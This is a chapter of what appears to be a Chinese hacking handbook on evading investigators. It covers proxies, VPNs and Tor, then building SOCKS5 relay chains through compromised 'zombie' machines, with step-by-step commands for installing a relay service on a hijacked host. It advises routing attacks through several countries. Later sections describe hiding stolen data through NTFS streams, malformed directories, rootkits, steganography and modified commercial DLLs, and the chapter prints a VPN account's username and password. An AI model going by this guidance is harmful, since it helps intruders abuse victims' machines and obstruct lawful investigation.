这里以 QQ 为例设置代理 IP。首先到“代理中国”网站（http://www.proxycn.com/），在左栏选择一个代理列表。我挑选的代理 IP 是位于意大利地区的 HTTP 类型代理：81.208.88.101，端口 3128，如图1。


图1

接着运行 QQ 程序，在登录框输入 QQ 号与密码，并点击下方的“设置”，把我们挑选的代理按类别填入，并点击“测试”。若代理 IP 可用，QQ 会提示该代理工作正常，然后登录即可，如图2。

登录后，在“我的好友”一栏可查看当前的 IP 状态。看！IP 显示为意大利，如图3。


图2


图3

代理 IP 另一种形式是 WEB 代理，其作用也是充当网站访问的中间人，我们访问站点所留下的 IP 地址自然也就不是真实的。

例如，使用 anonymouse 访问《黑客手册》网站的 URL 形式是：http://anonymouse.org/cgi-bin/anon-www.cgi/http://nohack.cn，这样访问网站，你的 IP 在 HTTP 访问日志中显示的是德国 IP 地址，如图4。

除了 anonymouse.org 提供了在线 WEB 代理外，更多的网站都提供了这种服务，大家可以去下面的网站浏览。

- http://web-php-proxy.com/zh
- http://daili.li/
- http://uh9.net/
- http://www.proxyie.cn/
- http://www.orzin.com/
- http://www.51proxy.net/
- http://www.okdaili.com/

其实，使用代理并不安全，恶意的代理服务器搭建者有可能窥探数据，又或者追查者与代理服务者建立关系，迫使服务者提供日志记录。比如追查者就某个 IP（ADSL；不是代理）访问 ISP 服务提供商，要求出示网络记录。


图4

#### 7.2.2 VPN：虚拟专用网络

VPN 的英文全称是 “Virtual Private Network”，翻译过来就是“虚拟专用网络”。顾名思义，虚拟专用网络就是虚拟出来的企业内部专线。它的定义是：为通过一个公用网络（通常是因特网）建立一个临时的、安全的连接，是一条穿过混乱的公用网络的安全、稳定的隧道。具有访问网络速度快，隐藏 IP 地址等特性。

使用 VPN 之前，确定自己是否在肉鸡上搭建了 VPN 服务器，或是拥有网络服务商提供的 VPN 账户。这里我使用盛华代理公司（www.35753.com/）提供的 VPN 账户进行测试，IP：218.106.254.234，用户名：35755；密码：396178。

下载盛华 VPN 连接器，安装完毕后运行，在主界面填入相关账号信息，并点击“启用连接”，接着会弹出“连接建立成功”的提示，如图5。

现在再打开 ip138.com 便可查看到 IP 变化了，原来真实的 IP 地址为湖南地区，IP：222.240.104.137，使用 VPN 后，显示为欧洲地区的 IP 地址，一切通信都被加密了，如图6。


图5

图6

使用 VPN 隐藏 IP 地址是大部分黑客所喜爱的，但安全、速度快的服务需要花资金来购买。一般的 VPN 价格并不高，如果你不打算购买，可以使用免费的 VPN 软件，目前有三款 VPN 软件可挑选。

### VPN Smarthide

一个全局 VPN，通俗地说就是把你的上网环境彻底移到美国，你所有的网络连接将通过这个 VPN 软件挂上美国的代理然后访问互联网。不过，该软件需要注册交钱后才能使用一些功能，比如自动跟随系统启动、自动重新连接、自动提示连接中断等。

### Hotspot Shield

与一般的 VPN 不同（一般的 VPN 建立是电脑与机房服务器的特殊通道），Hotspot Shield 利用了光纤以外的另一个网络——wireless network。

### VPN-JIWire Hotspot Helper

使 VPN 更加安全的方式是采用多重 VPN 连接，即在 A 的 VPN 状态下再使用 B 的 VPN，这在最大程度上加强了数据传输保密安全。

#### 7.2.3 TOR，洋葱路由器

TOR 的全称是 “The Onion Router”，即洋葱路由器，属于自由软件。

TOR 是什么？官方网站的介绍如下：  
Tor 专门防范流量过滤、嗅探分析，使用户免受其害。其在由 onion routers（洋葱路由器）组成的表层网（overlay network）上进行通信，可以实现匿名对外连接、匿名隐藏服务。Tor 的代理一般在 2-5 层左右，加密程度也比较高。

> Tor 是一个软件项目，帮助你抵御流量分析。流量分析是一种对网络的监视行为，威胁到个人的自由、隐私、商业活动与业务关系的保密和国家的安全。

Tor 将你的通信通过一个由遍及全球的志愿者运行的中继（relay）所组成的分布式网络进行转发；以此来保护你的安全：它令监视你 Internet 连接的那些人无法知道你所访问的站点，还使你所访问的站点无法知道你的物理位置。

Tor 能与现有的许多应用程序配合工作，包括 Web 浏览器、即时通信客户端、远程登录和基于 TCP 协议的其他应用程序。

这意味着，一旦你加入 TOR 网络，你的主机便是 TOR 网络中的一个节点或中继，任何人无法跟踪与解密你网络中正在传输的数据。但 TOR 的网络速度有待提高，这使它并不能作为黑客攻击中有效的跳板，但未来随着大量用户的加入，情况会有所变化。

TOR 的安装很简单，运行安装程序一直点击“下一步”即可。安装完成后会自动运行，如果想让网络软件都使用 TOR 网络环境，就得配置一下。与前面配置代理 IP 形式一样，即在需要使用代理的程序的代理服务器 IP 处填写 127.0.0.1，端口填写 9050（Socks 类型）或者 8118（HTTP 类型，如网页浏览器）。

下面以 IE 浏览器的设置为例进行讲解。在 IE 浏览器的“工具”->“Internet 选项”->“连接”里，请按照如图7的设置进行修改。

设置完毕后，我们打开 ip138.com 查看 IP 地址的变化，如图8。


黑客社会工程学攻击

在 Vidalia 控制面板点击“查看网络地图”，在弹出的 Tor 网络地图中，我们可以查看到大量的中继器与当前网络状态，也说明我们处于 Tor 的节点中，如图9。


### 7.2.4 跳板：堡垒肉鸡的防火墙

若你手头上没有 VPN，但拥有大量被攻陷的机器，不妨建立一个堡垒式的肉鸡通信防火墙，以保障你的 IP 安全。跳板实质是在肉鸡上建立一个 Socks5 代理服务，通过这个加密的代理跳板来进行隐藏攻击。

代理跳板有何特点呢？从本地机发送连接到远程机器，中间通过安装的代理跳板，对应用程序而言，相当于普通的 Socks 代理调用。在跳板之间传输的数据，已经被动态加密，加密数据每次不同。跳板的数目由 1 到 255，不限制；当数目为 0 时，相当于 Socks5 代理服务器。

那么肉鸡跳板又是如何做的呢？我们以 IP：218.0.28.10 为例演示肉鸡跳板的安装与使用，这需要使用两个工具，SkSockServer.exe 与傻瓜跳板（包含了 SocksCap 与 Snake）。

第一步，先在肉鸡上将 SkSockServer.exe 安装为服务。这里我已经用 telnet 远程登录肉鸡，在 C 盘放置了 SkSockServer.exe 文件，如图10。


在 CMD 下输入 sksockserver /? 命令可查看详细帮助，如图11。接着我们运行如下相应的命令：

```bash
c:\>sksockserver --install      安装服务
c:\>sksockserver --config port 57039      端口定在57039，自己可以改
c:\>sksockserver --config starttype 2      ——开机自动启动
c:\>net start skserver                     ——启动服务
```

在图12中可以看到命令分别运行成功。


然后再运行本地傻瓜跳板工具包，安装完会运行 SocksCap 与 Snake，这里先设置 SocksCap 的 Socks 服务器与端口，具体方法参考图13即可。


然后是 Snake，在主界面的“配置”菜单选择“经过的 SkServer”，在弹出的对话框分别填上先前安装在肉鸡上的 sksockserver.exe 所产生的信息，如图14。


现在一切配置完毕，我们再来测试跳板是否工作正常。在图14中点击下方的“测试”按钮，在弹出的对话框填上 Google.com 进行测试。如图15，返回的信息提示安装的跳板能工作了。

要使用跳板入侵，只需把相应的工具拖入 SocksCap 界面中即可，你可以拖入 CMD 命令或是其他的注入工具，我这里放入的是 QQ，如图16。当然，登录后所使用的 IP 地址就变为肉鸡的 IP 了。


图15（左），图16（右）

另一个问题是，我们的跳板如何才能最大化保持免受跟踪呢？第一要保障你肉鸡的安全！也许你动用了几百台肉鸡制作了多级跳板，但忽视了肉鸡系统的安全性，那么你的跳板是失败之笔。

我的一个喜爱脚本攻击的朋友经常犯此错误，他以挑战大站的安全所带来的刺激为目的对相关站点进行入侵，但是站点攻陷之后却留下了脚本后门与攻击工具，这方便了后来的小辈们直接拿取系统权限。

如果不想你的东西被人“瓜分”，最好给搞定的肉鸡打上安全补丁吧！同样，这使得追查者的工作更加困难，因为他们得再次攻陷这台“安全”的肉鸡。

第二是肉鸡的选择。别试图挑国内的机器，你最好用跳板绕地球一圈再回到真正的攻击地点。一般来说，途经三个国家便可加重追查困难级别，例如从韩国开始，中途是日本，最后是从美国跳板回来，这意味着你需要三台物理配置不错的肉鸡建立多级跳板。

### 7.3 数据隐藏与伪装

如果凯文·米特尼克将从圣迭戈超级计算机中心所窃取的数据进行加密与伪装处理，我想他还会做出更加疯狂的事件，包括将全球互联网置于生死地步。很明显，凯文的失败在于窃取的数据被考伯尔发现文件中的“圣迭戈”标记信息，若没有考伯尔向下村提供线索，凯文就不会再落入 FBI 手中。

数据隐藏就是老鼠与猫的游戏。在下面几个小节中，我们将就数据隐藏、数据隐写、数据保护、数据窃取与数据破坏讲述对数据处理的多种方式。

#### 7.3.1 COPY 合并与 WinRAR 伪装

如果你的机密信息仅是几段字符串的话（例如系统、邮箱等的登录口令），利用 COPY 复制命令就很容易完成简单的隐藏工作。

这个方法的原理是将两个不同类型的文件进行合并，如将记事本文件与图片文件合并成新的图像文件，记事本的信息只是追加在图片文件数据尾，且是明文显示的，要查看信息时只需用记事本打开。

## 第七章 反侦查技术的对抗

例如，“记事本.txt”文件中的信息是“lizaib”，与“图片.jpg”文件在 CMD 下合并的命令是 `copy 图片.jpg /b + 记事本.txt /a 新图片.jpg`，回车运行命令后会生成新的图片文件“新图片.jpg”，如图17。


图17

当普通用户打开“新图片.jpg”文件时，他们看到的只是图片而已，但如果在图片上点击右键，在“打开方式”中选择用记事本打开，并把滚动框拉至最后时，就能看到真实隐藏的信息“lizaib”，如图18。


图18

COPY 可以认为是一种文件合并，与之相应的性质是文件捆绑，大多数的木马都采用这种性质与正常文件捆绑在一起运行，其实质是 WinRAR 打包效果。我们可以使用傻瓜化的工具 FilePacker 轻松完成，只需将要隐藏的文件与正常的文件添加即可生成一个可执行程序。但缺陷也很明显，可以使用 WinRAR 打开，如图19。


图19

最后，别忘记加上一个复杂的密码，也就是 WinRAR 密码，并选择一个系统图标作为伪装。

## 7.3.2 在 Recyeler 文件夹隐藏

Recyeler 文件夹是回收站分区存储的位置，磁盘每个分区根目录都有回收站文件夹。不同的 Windows 平台，回收站文件夹名也不同，有 Recycled 与 Recyeler 两种。大多数时候，Recyeler 被系统隐藏起来，不为大部分人注意，因此可把需隐藏的数据放到 Recyeler 文件夹中。

例如，这里将 password.txt 文件隐藏到 `c:\Recyeler` 文件夹中。先用 `attrib c:\recyeler -h -r -s -a` 命令去除 Recyeler 全部文件属性，使其可见。

这时便能在 C 盘看到 Recyeler 文件夹了，我们只需将 password.txt 文件拖入 Recyeler 文件夹即可，再用 `attrib c:\recyeler +h +r +s +a` 命令隐藏 Recyeler 文件夹，如图20。


另外，还可以利用 System Volume Information（系统卷标信息）对文件夹进行隐藏，前提是你得取消“文件隐藏”后才能看见。但这时，你会发觉双击该文件夹时弹出“拒绝访问”提示，如图21。


很简单，是文件权限问题。选择该文件夹并按鼠标右键，进入 System Volume Information 的“属性”-“安全”标签，在“组和用户”处将管理员加入后便可以访问。同理，我们也可以依法炮制，将重要文件拖入 System Volume Information 文件夹后再设置权限。

#### 7.3.3 利用 Desktop.ini 进行隐藏

早期的病毒“欢乐时光”曾利用 Desktop.ini 文件传播自身，但 Desktop.ini 本身并无危害性，它是文件夹配置信息文件，配合它用来隐藏文件是个不错的技巧。

### 第一个利用点：把文件夹变成透明

在桌面新建一个文件夹，点亮后先进行重命名操作。按住 `Alt+0160` 并回车，这时文件名变成了透明（就是没有文件名了！），接下来进行图标透明化操作。

在文件夹上按鼠标右键，选择“属性”，转到“自定义”标签，在下方选择“更改图标”，并在弹出的对话框选择空白图标即可，如图22。

现在，你会发现桌面上的文件夹消失了（处于透明状态），大部分人是感觉不到其存在的。你想查看的话，按下 F5 键或用鼠标在桌面拉出选框就能发现隐藏文件夹的痕迹。双击进入后，你会看见一个 Desktop.ini 文件，其中 IconFile 与 IconIndex 选项是分别指向图标文件及索引的设置，如图23。


图22

图23

### 第二个利用点：把文件夹伪装成系统文件

你可以直接将文件夹重命名为：`bmp.{d3c34b21-9d75-101a-8c3d-00aa001a1652}`，这时会发现文件夹变成了图像类型文件，如图24。


图24

但上述直接重命名达到的图标隐藏效果并不能在 Windows 多个平台起效，仅局限于 XP 环境。达到多平台通用的方法便是改写 Desktop.ini 文件与注册表，具体方法可以使用工具软件来实现。

#### 7.3.4 PQ 磁盘分区隐藏

利用硬盘分区魔术师 PartitionMagic 创建一个分区“Z”，并将要隐藏的文件放入其中，随后再次使用引导盘中的分区魔术师将分区“Z”设置为隐藏分区，这样就可以保障数据的不可见，如图25。


图25

#### 7.3.5 NTFS 文件流（ADS）隐藏

只要你不告诉别人这个文件的名称与保存位置，利用 NTFS 文件流隐藏信息是个不错的方法。使用这个方法的前提是你的磁盘格式必须是 NTFS。我们来看看怎样在 `F:\lizaib` 目录隐藏一条 `mail:lizaib@gmail.com` 信息至流文件 pass.txt 中。

在 lizaib 目录执行 CMD 命令 `echo mail:lizaib@gmail.com>>:pass.txt` 后，新建的流文件是看不到的，我们可用记事本程序打开。执行命令 `notepad :pass.txt` 便可弹出文件中的信息，如图26。


图26

要增加点迷惑性的话，可以将命令改为 `echo mail:lizaib@gmail.com>>nohack.jpg:pass.txt`，这里的 nohack.jpg 可以是不同类型的文件或者是已存在的文件，流文件便存在于其中。

如果我们要在网络中传输，可将 nohack.jpg 压缩，但有点必须注意：在压缩时应选择“高级”选项里的“保存文件流数据”才行，如图27。


图27

同理，ADS 还可隐藏文件，命令格式 `type 文件名+后缀>>任意文件:任意文件名+原文件后缀`。例如 `type nohack.jpg>>1.txt:hack.jpg`，查看文件时必须使用相应的程序打开。nohack.jpg 是图片，在 cmd 命令下可执行 `mspaint 1.txt:hack.jpg` 来查看图片。

#### 7.3.6 Rootkit 技术隐藏

如果说 Trojan 的产生是为破坏系统，那么 Rootkit 便是它的帮凶，它能协助木马隐藏进程、端口、文件。但是，Rootkit 又是一种易碎品，毫无经验者试图操纵它时，它会破坏系统的完整性与稳定性，这一点切需谨记！

rewt 目录消失了！如图28。


图28

AFX Rootkit 能隐藏任何类型文件，实际上它就是隐藏了目录（注：新版的 AFX Rootkit 2005 能隐藏不同分区任何目录，而早期版本一般不行）。若你要访问隐藏的目录，点击“开始”→“运行”，输入完整的隐藏目录路径即可打开。

以前面那个隐藏演示为例，在“运行”处输入 `c:\winnt\rewt\` 便可访问隐藏文件了。

不过，AFX 还不能逃过 IceSword 的眼睛，很轻松地就被发现并删除了。

#### 7.3.7 畸形目录里的新东西

先让我们回忆早期文件系统所引起畸形目录的缺陷，在任何有经验的黑客看来，那真是不错的作弊方式；你有看到过这样的对话框么？如图29。


图29

### 一、加点

- 建立：在 cmd 里输入 `md G:\est..\`
- 访问：运行 `G:\est..\`
- 混淆：建立 `G:\est\.`，这样每次打开 `G:\est...\` 目录就自动进入了 `G:\est\` 目录
- 删除：`rd G:\est..\`

### 二、带空格目录名

- 建立：用 `md "no \ \"`（注意：no 后面有个空格！原则就是畸形目录名后加一个 `\ \`，即“\空格\”）。
- 访问：对于建立好的目录，在资源管理器中可以直接访问，cmd 中用 `cd "no \ \"`
- 删除：`rd /s /q "\\.\D:\no \"`

### 三、保留设备名

- 建立：`md G:\con\`（注意：后面的 `\` 号不能少！）
- 访问：XP 下可直接访问，但是无法在资源管理器中直接删除目录，2k 中可在“运行”里输入 `G:\con\`。
- 删除：`rd /s G:\con\`

### 四、隐 ASCII 目录名（新方法）

- 建立：新建批处理，内容为：`md \`..\`（注意：这里 `\` 后的那个空位，按键盘上的 `Alt+127` 得到）。
- 访问：在 cmd 与资源管理器中都无法直接访问，只能通过“运行”访问。
- 删除：通过批处理删除，内容为：`rd \...\。`

特别说明的是，第四种方法效果更好，因为在命令提示符下用 DIR 列目录时，文件名之前有无法输入的三角形。同时，我还建议你把文件夹图标弄成透明的，并配合之前的方法，使得很难访问你隐藏的文件。

### 7.4 数据隐藏与隐写术

前面的数据隐藏无非是与追查者玩过家家的游戏，如果被他们找着了，他们运气一定很好；但若找到的东西又使用了隐写技术，这一定令他们很沮丧。数据隐写你了解多少？那可是大有来历的，恐怖组织曾用图片隐写技术发布指挥命令；它的另一个子集是数字水印，在商业中多用于反盗版识别。

在这一小节我得提醒你，如果你用隐写软件在图片、音频、文本等文件中隐藏了信息，当再次试图解码时仍然得使用该软件进行解码，所以建议你将所有相关的东西都放到 U 盘中吧。

#### 7.4.1 QR 密文信息隐写

数字水印适用于音频、视频、图片等数字媒体形式，肉眼是无法辨别的，数码设备依据这类水印识别媒体文件是否为盗版。数字水印除了应用于商业，还为政府军事情报服务，它们有专门的数字水印算法。一般而言，利用水印隐藏信息，或是加密某些信息，都是安全的。

然而商业中的数字水印软件不是那样轻松就能买到。若你有一段微型信息需要加密，比如个人信息、交易账户或日志，利用 Psytec QR 就可以将信息转换为无意义的 JPG 图片形式。在任何人看来，无论用 16 进制或记事本查看也弄不明白这张图片藏了什么信息。QR 工具操作很简单，打开后，在不同的相关标签中填入要隐藏的信息并生成 JPG 图片即可，如图30。


要解密信息时，再用 QR 打开被隐藏信息的图片便可查看到。

#### 7.4.2 MP3 音频文件信息隐写

MP3 实质就是一种音频压缩技术，压缩方式全称叫 MPEG Audio Layer3，这是一种有损压缩。MP3 文件另一个关键是编码器质量以及编码信号，一般近似 CD 音质的 MP3 压缩率是 11:1。MP3Stego 软件的作者认为这为信息隐藏提供了足够大的空间。MP3Stego 这款软件的作用便是在音频文件中进行信息隐写，它首先对数据进行压缩、加密，然后将数据隐藏在 MP3 比特流中。

### MP3Stego 具体的使用方法

准备好一个 wav 文件，以及要隐藏的 txt 文件，然后以此生成隐写了信息的 MP3 文件。现在我们看看 MP3Stego 到底是如何隐藏信息的吧。

MP3Stego 有命令行版本与 GUI 版本，这里使用命令行下的版本。我准备了一个可播放的音频文件 svega.wav，以及记事本文件 hidden_text.txt，记事本内容是：Hello world! NoHack.CN —— by lizaib。

```
encode -E hidden_text.txt -P pass svega.wav svega_stego.mp3
```

上述命令中，`-E` 表示要隐藏的信息；`-P` 为设置密码；svega_stego.mp3 为最终生成的可播放 MP3 文件。若要从 MP3 分离隐写信息，命令为 `decode -X -P pass svega_stego.mp3`。

其中 `-X` 表示要解码，`-P` 为之前设置的密码；其后是被隐写了信息的 MP3 文件。执行命令后，在第 4 行提示输出隐写信息文件名为“svega_stego.mp3.txt”，最终命令执行如图31。


我们再次查看分离出来的记事本信息是否还在。打开后，完好无损，如图32。


#### 7.4.3 BMP 与 GIF 图片文件信息隐写

我的朋友爱无言大牛的一篇论文《浅谈图像隐藏和解密技术》对图像隐藏作了详细说明。据说本·拉登的恐怖分子利用这项技术传递命令任务，使得美国人很是头痛。那什么是图像隐藏呢？

这就触及到图片格式说明。BMP 位图图像是由一连串数字排列表示。你可以用 UE 以十六进制进行查看，它表示了颜色强度。而图片隐写便是采用了 LSB（least significant bit）最低比特位隐藏技术。

```
假设图片字节如下
200 53 2 195 54 69 191 56
它们的二进制为 11001000 00110101 00000010 11000011 00110110 01000101 10111111 00111000

隐藏字符 109（二进制为：01101101）使用 LSB 技术替代为
11001000 00110101 00000011 11000010 00110111 01000101 10111110 00111001
对应十进制：200 53 3 194 55 69 190 57
```

现在再对比之前的字节，我们能发现相差很小，所生成的图像，肉眼是感觉不到任何改变的。简而言之，这项技术主要是对图像中影响图像效果最小的色素位进行改变。这令解密者感到困难，尽管他们能发现图片异常，但若我们把图片放大并分解成 10000 份进行加密，你能想象出他们的情绪有多么悲观？

目前已有一种 HIP 工具将图像隐写技术变成现实。HIP 是 Hide In Picture 的缩写，意为能隐藏任何类型的文件到图片中，并且图片显示正常，没有人会怀疑图片中藏有信息。它采用了 Blowfish、Rijndael 算法加密；你还能为文件加上一个保护密码。

HIP 有命令行与 GUI 版本，这里以命令行版本为例进行说明。HIP 主要实现三个功能：hide（隐藏）、retrieve（找回）、erase（擦除），我只说明如何隐藏数据与找回数据的使用。

| 命令格式 | 说明 |
|---|---|
| 隐写：`hip h "准备好的 BMP 图片" "要写入的文件" "生成的新文件" [选项]` | 将文件隐藏到图片中 |
| 找回：`hip r "被隐写数据的图片" "输出的隐写数据" [选项]` | 从图片中提取隐藏文件 |

在 cmd 下运行 hip 后便列出详细参数说明，如图33。


图33

现在演示吧！我已准备的图像为《黑客手册》的 logo.bmp（经过 Windows 画图板转换为 24 位 BMP 格式），要隐藏的文件为记事本 me.txt，内容为：Social Engineering。

将这两个文件放到 HIP 当前目录，执行命令 `hip h logo.bmp me.txt newlogo.bmp`，这时会要求设置密码，连续两次输入正确密码即可生成新图片 newlogo.bmp，如图34。


图34

你现在尝试对比一下之前的图片，是否色彩与大小是一样的？这说明隐写成功了。数据隐写成功后，现在分离出真实信息吧。执行命令 `hip r newlogo.bmp newMe.txt`，接着会要求输入密码，输入正确密码后便分离出真实信息文件 newMe.txt。我们再用 `type` 命令打开 newMe.txt 的内容，瞧！分离成功了！如图35。


图35

这次操作中我为了简单说明而没有使用相关参数，这并不重要，我在乎的是你们是否看明白了？至于具体而详细的使用，你可以使用 GUI 版。请看图36的对比，你能仔细分辨出下列两张图片的差异吗？一张没有隐写，另一张隐写了。


图36

如果仅使用 BMP 图片进行信息隐写会使趣味大打折扣，不要紧，Hide and Seek v4.1 工具能将图片隐写上升到另一个高度！该软件可在 GIF 图片文件中进行信息隐写，针对不同类型文件并加上密码。

BMP 与 GIF 图片文件组织结构是不同的。对于 GIF 图片来说，它有个缺点，那就是数据隐写后 GIF 图片会有少许失真，即肉眼能感觉出像素的丢失。

Hide and Seek v4.1 包括两个部分：隐写 hide.exe 与解码 seek.exe，都需要在 cmd 命令行下运行。我们来操作将 hideseek.doc 文件隐写入 ardala.gif 图片中，相关命令格式如下：

```
hide 要隐写的文件 被写入的GIF图片 密码
seek 被写入的GIF图片 生成的隐写文件 密码
```

因此，在 ardala.gif 图片中隐写 hideseek.doc 文件的命令为 `hide hideseek.doc ardala.gif 1200`，输入命令后按两次回车就生成新的 GIF 图片文件 outfile.gif，如图37。


对于是采用 BMP 还 GIF 图片进行信息隐写的选择，我建议你使用 BMP 图片。一是视觉效果并无改变，二是没有增大文件大小。另外，在光盘中还赠送有另一款图像隐写工具 S-Tools，大家也不妨试试。


图38

#### 7.4.4 Text、HTM、PDF 文件信息隐写

引用 2007 年的某句网络流行语，我看到一款“很黄很暴力”的数据隐写软件——StegoMagic 1.0，它支持的文件类型有 Text、Wave、Bmp（24 位/256 色），支持单信息及文件隐写。软件编写的 4 位作者来自 Computer Science And Engineering 和 College Of Engineering Trivandrum，StegoMagic 软件主界面如图39。


图39

这里以隐藏单个信息至 Text 记事本为例：打开 StegoMagic 进入主界面后，在“Carrier File Type”选择“Text”类型文件，在左上方的“Hide”选择“Message”，这时右上方的“Enter secret”显示为可写状态，我们往其中填入微型信息，并在下方“Enter Password”处键入保护密码。

接着在“Save Carrier File AS”处选择文本文件的保存位置，在“Select Process”点击“Hide”会弹出提示“Hiding Process Successfully Completed”，说明成功隐藏了，如图40。


图40

我们再看看被隐写的 NND.txt 处于怎样的状态。打开后显示为一片空白，但状态栏显示大小为 914 字节，说明该文本文件存在隐写信息，如图41。


图41

下面我们再将 NND.txt 记事本中的隐写信息分离出来。点击主界面中间“Select Carrier File (For Both Hiding and Unhiding)”下的“Browse”（浏览）按钮，选中 F 盘下的 NND.txt 文件。然后在右边“Enter Password”处输入保护密码，并点击左下方的“Unhide”按钮。这时会弹出“Unhiding Process Successfully Completed”的提示，请注意主界面右上方，那里将显示出你所隐写的信息，如图42。


图42

另外，除了前面所介绍的几种隐写形式，也可在 HTM 与 PDF 文件中进行信息隐写，这可以使用相关工具来设置。wbStego4 这款工具可以在 BMP、TXT、HTM、PDF 文件中进行信息隐写；操作极为简单，运行后依次按照向导的提示进行设置便可生成新的隐写文件，如图43。


图43

#### 7.4.5 在线 JPEG 与 PNG 图片信息隐写

Mozaiq 网站所提供的在线图像信息隐写有两个优点：

- 它支持最先进的图片格式 JPEG 与 PNG。
- 它很方便，不需要软件支持，有网络便可随时使用。

首先使用 IE 浏览器打开图片隐写的网址 http://mozaiq.org/encrypt/，第一步先上传你要隐写信息的图片；第二步在文本框中填入隐写信息，比如“黑客社会工程学攻击，数据隐写测试”；第三步输入一个保护密码；最后一步点击“Hide Your Message!”按钮即可，如图44。


图44

这时页面进行了跳转，出现了之前所上传的图片，我们点击图片下方的“download your image”链接将它下载到本地硬盘进行保存，如图45。


图45

那么隐写信息成功写入图片了吗？我们打开解密网址 http://mozaiq.org/decrypt/，在右边选择之前你所下载到本地硬盘的隐写图片进行上传，然后输入密码并点击“Reveal Your Message!”，如图46。

密码输入正确之后，页面会返回我们之前在图片中所隐写的信息“黑客社会工程学攻击，数据隐写测试”，如图47。


图46


图47

#### 7.4.6 反汇编技术信息隐写

通过反汇编技术对商业软件进行加密破解，往其中注入隐写信息，它所带来的好处不言而喻。一般来说，取证专家们在对文件进行指纹检测时偏重于系统文件是否被篡改，而忽略了应用软件文件指纹校验。若他们试图校验时会遇到几个问题，那就是必须联系商业软件研发者出示正确的 MD5 校验值（山东王小云已破解出 MD5，经碰撞能使不同文件产生相同校验值）。另外，简单的文件大小对比是找不出任何问题的，精通免杀的读者们很容易知道，采用“替换法”可保证文件大小根本不变。

我们就拿迅雷下载软件来开刀练手吧，使用的是“完美者修改版迅雷”。我们在其中隐写完信息后，取证专家们可能就得先要联系“完美者”获取 MD5 校验值。

接着准备好软件资源编辑工具 Restorator 2007。我打算修改的是 C:\Program Files\Thunder\ComDlls 目录下的 TDAtOnce.dll 文件，一个迅雷浏览器高级特性支持模块文件。

运行 Restorator 2007 进入主界面并打开 TDAtOnce.dll 文件，在左边的资源树中会列出软件的资源。一般来说，我们可以修改它的图片、代码。我们这里是修改代码，选中 html 树形下的网页文件 GETFLV_.HTM，右边会显示网页文件代码，我们可以替换网页文件内容来达到隐写的目的，即修改网址：http://schemas.microsoft.com/intellisense/ie5，如图48。

假设我要隐藏的信息是 nohack.cn，而网址 http://schemas.microsoft.com/intellisense/ie5 的长度是 45，能发挥的空间是很大的。

首先将 nohack.cn 进行字符转 ASCII 码处理，统计出 23 个数，如图49。


45 减 23 后使我们还有 22 个数的修改空间，于是，在原基础上最终替换的字符为：http://microsoft.com/110111104979910746991101L，长度没有变，最后的 L 是为了凑数。但修改时，我们要把 GETFLV.HTM 文件导出来，并用记事本修改，如图50。


修改完后，我们再导入 GETFLV.HTM.html 文件，然后保存修改过的 TDAtOnce.dll 文件即可搞定，运行迅雷正常。如果我们想要查看隐写的信息，只需再次使用 Restorator 2007 打开这个文件，提取 110 111 104 97 99 107 46 99 110 字符，并按 ASCII 转字符处理即可还原信息。

Restorator 2007 不单能修改 DLL，还包括多种类型的可执行文件，如果你发现某些 *.exe 文件无法打开时，请进行脱壳后再处理。

如果你不想做烦琐的代码修改，可以把资源文件的位图导出进行图像隐写后再导入，我想没有人能从迅雷软件的图片看出什么异样，除非对方是个天才！

## 7.5 数据加密与破解机制

数据加密（Data Encryption）技术是什么呢？是指将一个信息（或称明文，plain text）经过加密钥匙（Encryption key）及加密函数转换，变成无意义的密文（cipher text），而接收方则将此密文经过解密函数、解密钥匙（Decryption key）还原成明文。

加密，是为了保护数据，但你是否还知道，数据破坏也是一种保护机制。加密虽然令侦查者头痛，但更重要的是，取决于你对数据处理得是否彻底。

#### 7.5.1 加密数据档案

一个优秀的程序必然有优秀的算法作为后盾，同理，加密重要的数据也必须要有卓越的算法。Folder Crypt 能加密各种类型的文件，并支持 DES（64bit）、Triple DES（128bit）、AES-Rijndael（256bit）、ARCFour（2048bit）和 Blowfish（448bit）位加密。使用该软件之前需要系统有 Microsoft .NET Framework v2 的支持。我们来加密一个文件夹，打开 Folder Crypt 后，点击工具栏“Lock Folder”图标，在弹出的“Encryption”对话框中选择你要加密的目录及加密算法，并且别忘记设置三个字母+数字+符号的强大密码，如图5.1。


点击“Encrypt”后，会在加密当前目录生成以 .crypt 为扩展名的加密文件。若你想解密，双击加密文件会自动调用 Folder Crypt 工具，输入先前设置的密码即可打开加密文件。同时，别忘记 Folder Crypt 除了加密目录还能加密任何类型的文件。

#### 7.5.2 EFS 加密文件系统

EFS（Encrypting File System，加密文件系统）是 Windows 平台用于对 NTFS 卷上的文件和数据进行加密的功能。

EFS 加密是基于公钥策略的，在使用 EFS 加密一个文件或文件夹时，系统首先会生成一个由伪随机数组成的 FEK（File Encryption Key，文件加密钥匙），然后将利用 FEK 和数据扩展标准 X 算法创建加密后的文件，并把它存储到硬盘上，同时删除未加密的原始文件。

随后系统利用你的公钥加密 FEK，并把加密后的 FEK 存储在同一个加密文件中。而在访问被加密的文件时，系统首先利用当前用户的私钥解密 FEK，然后利用 FEK 解密出文件。在首次使用 EFS 时，如果用户还没有公钥/私钥对（统称为密钥），则会首先生成密钥，然后加密数据。

我来说明一下如何利用系统的 EFS 加密“d:\encrypt\秘文.doc”文件。首先在“秘文.doc”文件上按鼠标右键，选择“属性”，在弹出的对话框“常规”标签下选择“高级”，再在“高级属性”对话框中选中“加密内容以便保护数据”，如图52。


图52

这时会弹出“加密警告”对话框，选择“只加密文件”并确定，如图53。另外，被 EFS 加密后的文件，其名字会变成绿色。


图53

这里我使用的是系统管理员用户 lizaib 加密的，因此只有 lizaib 才能访问加密文件，如果我们要在其它计算机中打开或是传给他人，就必须要用 lizaib 的私钥才能访问。那么如何导出私钥呢？

点击“开始”→“运行”菜单，输入“certmgr.msc”回车后，在出现的“证书”对话框中依次双击展开“证书”→“当前用户”→“个人”→“证书”选项，在右侧栏目里会出现用户名为 lizaib 的证书。选中该证书，点击鼠标右键，选择“所有任务”→“导出”，打开“证书导出向导”对话框，如图54。

然后再按照证书向导依次导出证书，这个过程中别忘记设置一个复杂的密码，并选择保存位置，如图55。


图54


图55

最终生成的私钥以“.pfx”为扩展名，你只需传给他人并安装即可，如图56。


图56

另外说明一下，除非有人非法攻破你的电脑，直接使用你的账户登录系统，这样才能访问你的加密文件。所以，你的密钥一定要放在安全的地方，当你以上两点都没有达到的时候，EFS 加密便失去了对文件保护的能力。

### 7.5.3 五星级的加密工具

